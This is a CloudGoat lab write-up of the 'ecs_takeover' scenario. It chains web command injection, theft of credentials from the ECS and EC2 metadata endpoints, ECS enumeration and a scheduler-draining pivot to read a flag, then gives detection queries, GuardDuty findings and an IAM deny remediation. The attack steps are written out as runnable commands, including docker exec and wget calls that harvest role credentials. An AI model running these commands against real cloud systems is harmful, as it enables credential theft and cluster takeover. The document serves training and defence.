# Recruiting the Scheduler: Container Injection to ECS Takeover

> **CloudGoat scenario:** `ecs_takeover`
> **Attacker toolkit:** a web browser (command injection), AWS CLI
> **Defender toolkit:** CloudTrail → Athena, GuardDuty, Terraform/IAM
> **MITRE ATT&CK:** [T1190 Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/), [T1552.005 Cloud Instance Metadata API](https://attack.mitre.org/techniques/T1552/005/), [T1609 Container Administration Command](https://attack.mitre.org/techniques/T1609/), [T1613 Container and Resource Discovery](https://attack.mitre.org/techniques/T1613/), [T1078 Valid Accounts](https://attack.mitre.org/techniques/T1078/)

This is the most layered attack in the series: a web command-injection bug becomes
a shell inside a container, two metadata endpoints hand over two sets of AWS
credentials, and then — the elegant part — the attacker **abuses the ECS scheduler's
own self-healing guarantee** to relocate a target container onto a host they
already control. No memory corruption, no CVE; just a chain of misconfigurations
and one legitimate API call used with malicious intent.

---

## The environment

The only thing exposed is a web app, "Website Cloner," with a single URL input
field. Submitting a shell metacharacter shows it passes input straight to a shell:



```
; echo 'hello world'      →      hello world
```

That's remote command execution inside the `vulnsite` container (T1190).

---

## The attack

**1. Enumerate the containers.** With RCE, list what's running on the host:

```
; docker ps
```



Two containers stand out: `vulnsite` (the web app) and `privd` — a **privileged**
container literally running `sleep 365d`, parked there running under a role worth
stealing.

**2. Steal two sets of credentials from the metadata endpoints.** A container gets
its task-role credentials from the ECS credential endpoint (`169.254.170.2` +
`$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`). Because `privd` is *privileged*, it can
also reach the **host's** EC2 metadata service (`169.254.169.254`) and lift the
**EC2 instance role** — the ECS agent's role, which is far more powerful:

```
; docker exec <privd> sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'
; docker exec <privd> sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/'
; docker exec <privd> sh -c 'wget -O- 169.254.169.254/latest/meta-data/iam/security-credentials/cg-ecs-takeover-...-ecs-agent'
```




Now I hold two identities: the `privd` **task role** (`container_creds`) and the
host **ECS-agent instance role** (`host_creds`).

**3. Map the cluster.** Using the task role, enumerate ECS (T1613):

```bash
aws --profile container_creds ecs list-clusters
aws --profile container_creds ecs list-tasks --cluster ecs-takeover-...-cluster
aws --profile container_creds ecs describe-tasks --cluster ecs-takeover-...-cluster \
  --tasks <...> --query 'tasks[].{group:group,instance:containerInstanceArn,containers:containers[].name}'
```



The topology is the whole puzzle:

| Instance | Running | Controlled by |
| --- | --- | --- |
| **A** (`9a4ac6…`) | `vulnsite` + `privd` | me (my injection shell is here) |
| **B** (`682e36…`) | **`vault`** + `privd` | not me |

The `vault` container — holding the flag — is on **Instance B**, and my `docker exec`
foothold only reaches containers on **Instance A**. I can't reach `vault`, and I
can't move my shell. So I move `vault` instead.

**4. Weaponize the scheduler (the crux).** `vault` is a **replica** service
(`group: service:vault`, desired count 1), so ECS guarantees one copy runs
*somewhere*. If I drain Instance B, ECS must reschedule `vault` — and with Instance
B disqualified, the only landing spot is Instance A, which I own. The host
instance role can make that call:

```bash
aws --profile host_creds ecs update-container-instances-state \
  --cluster ecs-takeover-...-cluster \
  --container-instances 682e36d6824e4db88c924b4289551b05 --status DRAINING
```



This is a maintenance feature — draining a node for patching — turned into a
placement oracle. I'm not defeating ECS's reliability; I'm *recruiting* it.

**5. Collect the relocated target.** A minute later, `vault` reappears on my
instance:

```
; docker ps | grep vault      →      16fbf324198e ... ecs-cg-ecs-takeover-...-vault
```



**6. Read the flag.** Now it's local, `docker exec` works (T1609):

```
; docker exec 16fbf324198e cat FLAG.TXT      →      {{FLAG_1234677}}
```



---

## Root cause

A stack of compounding failures, each necessary: (1) **command injection** — the
web app passes input to a shell; (2) a **privileged container** that could reach the
*host's* metadata service and steal the more powerful instance role; (3) **no
isolation** between containers and `169.254.169.254`; and (4) an **over-permissioned
ECS agent role** that could call `ecs:UpdateContainerInstancesState` — a
cluster-management action a node's own role never needs. Remove any one and the
chain breaks.

---

## Detection

Here's what makes this scenario instructive: **almost the entire attack is invisible
to CloudTrail.** The injection, `docker ps`, `docker exec`, and the `wget` to the
metadata endpoints all happen *inside containers / on the host* — CloudTrail never
sees them, and the credential theft leaves no log. Detection rests entirely on the
few AWS API calls made with the stolen creds.

**Detection 1 — the smoking gun (`DRAINING`):**

```sql
SELECT eventtime, eventname, useridentity.arn AS who, sourceipaddress,
       json_extract_scalar(requestparameters, '$.status') AS new_state
FROM cloudtrail_logs_vulnerable_lab_logs_cmr
WHERE eventname = 'UpdateContainerInstancesState'
ORDER BY eventtime DESC;
```



One row: the **ECS-agent instance role** setting a container instance to `DRAINING`
from an **external IP** (`75.55.51.228`). A node's own role draining a node, from
off-box, is almost never legitimate — it's a maintenance action, and maintenance
doesn't originate from the public internet.

**Detection 2 — the ECS recon + drain chain (and a tuning lesson):**

```sql
SELECT eventtime, eventname, useridentity.arn AS who, sourceipaddress
FROM cloudtrail_logs_vulnerable_lab_logs_cmr
WHERE eventsource = 'ecs.amazonaws.com'
  AND eventname IN ('ListClusters','ListTasks','DescribeTasks','DescribeServices',
                    'DescribeContainerInstances','UpdateContainerInstancesState')
  AND useridentity.arn NOT LIKE '%iamadmin%'
ORDER BY eventtime ASC;
```



The attacker rows — `ListClusters` → `ListTasks` → `DescribeTasks` (task role) →
`UpdateContainerInstancesState` (agent role) — all come from `75.55.51.228`. But the
raw result also surfaced AWS-service callers (`AWSServiceRoleForResourceExplorer`,
`GuardDutyRuntimeMonitoring`) from `*.amazonaws.com`. **Filtering out `iamadmin`
isn't enough** — a production rule must also exclude AWS service principals and
alert on the *external-IP* condition. Real detection engineering is as much about
suppressing legitimate noise as finding the signal.

**GuardDuty** — for the first time in this series — **fired**: a HIGH-severity
`UnauthorizedAccess:IAMUser/ResourceCredentialExfiltration.OutsideAWS` on the
`privd` runtime role, flagging that its credentials were used from external IP
`75.55.51.228`:



Note *what* it caught, though: the **credential exfiltration** (ECS creds used
off-box), not the **technique** (the scheduler abuse). Had the attacker run the AWS
calls from *inside* the compromised instance, GuardDuty would have stayed silent.
It's a valuable backstop, but it caught the symptom, not the method — which is
exactly why the custom `DRAINING` detection matters.

---

## Remediation

Layered, because the root causes are. One control applied and verified live; the
rest documented as the real fixes.

**Live compensating control — deny the weaponized action**
([`remediate/deny_ecs_drain.json`](../ecs_takeover/remediate/deny_ecs_drain.json)):

```bash
aws --profile iamadmin iam put-role-policy \
  --role-name cg-ecs-takeover-cgidhhqrvpthda-ecs-agent \
  --policy-name DenyEcsDrain \
  --policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Deny","Action":"ecs:UpdateContainerInstancesState","Resource":"*"}]}'
```



An ECS container-instance role needs `RegisterContainerInstance`, `Poll`, and
similar — it has **no** business draining instances. The deny kills the pivot
without touching the agent's real function.

**The architectural fixes** (the true root causes):
1. **Fix the command injection** — never pass request input to a shell; validate/
   escape, or use a non-shell API.
2. **Don't run privileged containers.** `privd` being privileged is what let it
   reach the host's metadata service. Drop `--privileged`.
3. **Block containers from the host IMDS**
   ([`remediate/block_container_imds.sh`](../ecs_takeover/remediate/block_container_imds.sh))
   — an iptables rule dropping container traffic to `169.254.169.254`, or `awsvpc`
   network mode. This is the single most impactful control: it stops any container
   from ever stealing the *host instance* role.
4. **Least-privilege every ECS role** so a compromised container can't enumerate or
   manipulate the cluster.

---

## Verification

Re-run the exact drain with the stolen host creds after the deny:

```bash
aws --profile host_creds ecs update-container-instances-state \
  --cluster ecs-takeover-...-cluster \
  --container-instances 9a4ac65d34ed4c45b55a5b51f3d7a4b3 --status DRAINING
```



```
AccessDenied ... not authorized to perform: ecs:UpdateContainerInstancesState ...
with an explicit deny in an identity-based policy
```

The deny applies per-request, so even the already-issued `host_creds` session is
blocked immediately. The scheduler-abuse primitive is closed.

---

## Takeaways

- **Attackers recruit reliability features, they don't just break things.** The ECS
  service scheduler's guarantee ("always keep one `vault` running") became a
  placement oracle. The fix isn't less reliability — it's denying the one permission
  (`UpdateContainerInstancesState`) that lets an attacker steer *where* that
  guarantee is satisfied.
- **A privileged container is a host compromise.** The only reason the host instance
  role was stealable is that `privd` could reach `169.254.169.254`. Container-to-host
  metadata isolation is non-negotiable.
- **The control plane is quiet; watch the credentials.** The entire exploit chain was
  invisible to CloudTrail except the stolen creds' API calls. Detect roles doing
  things roles shouldn't — from places they shouldn't.
- **GuardDuty is a backstop, not the plan.** It caught the credential exfiltration
  (because the creds were used off-box) but never saw the technique. Custom
  control-plane detection caught what managed tooling structurally cannot.
